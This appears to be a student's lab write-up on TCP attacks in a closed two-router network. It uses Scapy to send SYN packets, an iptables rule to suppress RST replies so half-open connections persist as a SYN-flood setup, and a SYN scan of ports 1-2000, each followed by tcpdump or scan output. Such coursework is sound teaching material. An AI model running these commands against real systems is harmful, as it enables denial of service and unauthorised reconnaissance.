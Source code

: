 Home Assignement 1
==================
Aurélien Labate (EFJIOD)

The following network configuration will be used during this exercice.
![Network](network.png)

Part 1 - Perform a TCP SYN Attack
---------------------------------
The goal of a TCP SYN attack is generally to create a deny of service by
opening a lot of TCP connections on the target's computer.

### TCP SYN Exchange when target's port is closed

**Scapy command**: Send a SYN packet on the TCP port 80
```
send(IP(dst="10.0.0.2")/TCP(dport=80,flags="S"))
```

**tcpdump** on `R2`:
```
16:41:25.123960 IP 10.0.0.1.20 > 10.0.0.2.80: Flags [S], seq 0, win 8192, length 0
16:41:25.124014 IP 10.0.0.2.80 > 10.0.0.1.20: Flags [R.], seq 0, ack 1, win 0, length 0
```

We can see that `R2` answer with a `[R.]`, which mean `RESET` and `ACK`.
In this case, `R2` has closed the connection after this reset packet because their is no application listening on this port.

### TCP SYN Exchange when target's port is opened
The TCP port 23, is telnet's port which should be opened on this router.

**Scapy command**: Send a SYN packet on the TCP port 23
```
send(IP(dst="10.0.0.2")/TCP(dport=23,flags="S"))
```

**tcpdump** on `R2`:
```
16:46:56.600802 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [S], seq 0, win 8192, length 0
16:46:56.600861 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 1502880524, ack 1, win 14600, options [mss 1460], length 0
16:46:56.601316 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [R], seq 1, win 0, length 0
```
We can see here that `R2` answer with `[S.]`, which mean `SYN` and `ACK`.
After that, `R2` expect a `SYN` from `R1` to complete connection.

But `R1`'s TCP stack doesn't expect this `SYN-ACK` from `R1` so it close the connection
with a `RESET`.

### TCP SYN Attack
If `R1` don't send the final `RESET` package on an open port, the connection
should stay opened until timeout. That's what we want.

So we ask `R1`'s firewall to drop outgoing TCP `RESET` packet to `R2`
```
iptables -t raw -A OUTPUT -p tcp --tcp-flags RST RST -d 10.0.0.2 -j DROP
```

**tcpdump** on`R2`:
```
04:57:51.718419 IP 10.0.0.1.20 > 10.0.0.2.23: Flags [S], seq 0, win 8192, length 0
04:57:51.718464 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:52.714863 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:54.914846 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:57:59.114800 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:58:07.114834 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
04:58:23.114784 IP 10.0.0.2.23 > 10.0.0.1.20: Flags [S.], seq 3149158510, ack 1, win 14600, options [mss 1460], length 0
```

We can see here that `R2` doesn't receive any `ACK` from `R1` so it try to
resend its `SYN-ACK` package. After 6 attempts, it doesn't send anything else.
The connection stayed open at least for 32 secondes which is a very long allocation
of resources because of a single TCP packet.

So if we send this packet in a loop we should be able to take a lot of ressources
from `R2` and maybe create a deny of service.


Part 2 - Construct a TCP port scanner
-------------------------------------
We have seen in the first part, that `R2` answer with `RESET` when port
is closed and `SYN-ACK` when port is opened.

So if we send a loop of `SYN` packet on each port we can find which port is opened :

**Scapy command**: Send a SYN packet for each dport from 1 to 2000
```
sr(IP(dst="10.0.0.2")/TCP(dport=(1,2000),flags="S"))
```
To get the answer we have to do
```
ans,unans = _
ans.summary()
```

And we get something like that :
```
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:1 S ==> IP / TCP 10.0.0.2:1 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:2 S ==> IP / TCP 10.0.0.2:2 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:3 S ==> IP / TCP 10.0.0.2:3 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:4 S ==> IP / TCP 10.0.0.2:4 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:5 S ==> IP / TCP 10.0.0.2:5 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:6 S ==> IP / TCP 10.0.0.2:6 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:echo S ==> IP / TCP 10.0.0.2:echo > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:8 S ==> IP / TCP 10.0.0.2:8 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:discard S ==> IP / TCP 10.0.0.2:discard > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:10 S ==> IP / TCP 10.0.0.2:10 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:11 S ==> IP / TCP 10.0.0.2:11 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:12 S ==> IP / TCP 10.0.0.2:12 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:daytime S ==> IP / TCP 10.0.0.2:daytime > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:14 S ==> IP / TCP 10.0.0.2:14 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:netstat S ==> IP / TCP 10.0.0.2:netstat > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:16 S ==> IP / TCP 10.0.0.2:16 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:17 S ==> IP / TCP 10.0.0.2:17 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:18 S ==> IP / TCP 10.0.0.2:18 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:chargen S ==> IP / TCP 10.0.0.2:chargen > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ftp_data S ==> IP / TCP 10.0.0.2:ftp_data > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ftp S ==> IP / TCP 10.0.0.2:ftp > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:ssh S ==> IP / TCP 10.0.0.2:ssh > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:telnet S ==> IP / TCP 10.0.0.2:telnet > 10.0.0.1:ftp_data SA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:24 S ==> IP / TCP 10.0.0.2:24 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:smtp S ==> IP / TCP 10.0.0.2:smtp > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:26 S ==> IP / TCP 10.0.0.2:26 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:27 S ==> IP / TCP 10.0.0.2:27 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:28 S ==> IP / TCP 10.0.0.2:28 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:29 S ==> IP / TCP 10.0.0.2:29 > 10.0.0.1:ftp_data RA / Padding
IP / TCP 10.0.0.1:ftp_data > 10.0.0.2:30 S ==> IP / TCP 10.0.0.2:30 > 10.0.0.1:ftp_data RA / Padding
```

We can see the TCP flag before "/ Padding". For closed port this should be `RA` (for `RESET-ACK`).
For opened port this should be `SA` (for `SYN-ACK`).

We can see that the only open port is telnet's port (23).
